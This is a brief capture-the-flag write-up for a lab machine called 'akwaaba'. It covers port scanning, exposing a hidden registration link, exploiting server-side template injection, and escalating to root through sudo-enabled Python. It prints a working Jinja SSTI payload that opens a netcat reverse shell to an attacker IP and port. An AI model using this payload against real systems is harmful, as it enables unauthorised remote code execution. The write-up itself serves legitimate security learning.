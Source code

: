# akwaaba (Welcome)

scanning akwaaba, we find 2 ports open

```
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/troylynx/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.0.11.0:80
Open 10.0.11.0:10800
[~] Starting Script(s)
[~] Starting Nmap 7.94
```

visiting port 80 we get
![](./images/port80.png)

visiting the next port(10800) we get

![](./images/10800.png)

tried loggin using default creds, but didnt work out 
but viewing the source code, you see a register link which is hidden 

![](./images/register.png)

lets make it visibel by removing the hidden value and create and account and login to the system

![](./images/page.png)

logging in to the page we realise we can create pages, my team and i treid a lot of stuff and latter landed on `SSTI`

> {{ self.__init__.__globals__.__builtins__.__import__('os').popen('nc -e /bin/bash <IP> <PORT>').read() }}

and we got a shell

![](./images/firstShell.png)

to privesc we used sudo -l and found the user could exec `python` with `sudo`

![](./images/privescSudo.png)

[gtfobins](https://gtfobins.github.io/gtfobins/python/#sudo) has the solution just change `python` to `python3`

and we are root

![](./images/root.png)

## you are Welcome (akwaaba)